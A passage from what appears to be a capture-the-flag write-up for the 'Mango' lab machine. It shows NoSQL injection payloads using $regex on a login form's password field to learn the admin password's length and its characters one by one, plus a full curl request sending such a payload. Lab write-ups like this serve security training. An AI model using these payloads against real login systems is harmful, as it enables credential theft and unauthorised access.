 - **Brute force the length of password(username) methodology**: `username=admin&password[$regex]=.{1}&login=login`
  - => the length of admin's password: `12`

![image-20240119041212372](./Mango.assets/image-20240119041212372.png)

- **Brute force password(username) methodology**: `username=admin&password[$regex]=^x.*&login=login`
  - the first character of admin's password: `t`

```console
$ curl -i -s -k -X $'POST' \
    -H $'Host: staging-order.mango.htb' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate, br' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 48' -H $'Origin: http://staging-order.mango.htb' -H $'Connection: close' -H $'Referer: http://staging-order.mango.htb/' -H $'Upgrade-Insecure-Requests: 1' \
    -b $'PHPSESSID=a755nc4re30gauppba7gm5ahl6' \
    --data-binary $'username=admin&password[$regex]=^t.*&login=login' \
    $'http://staging-order.mango.htb/'
```
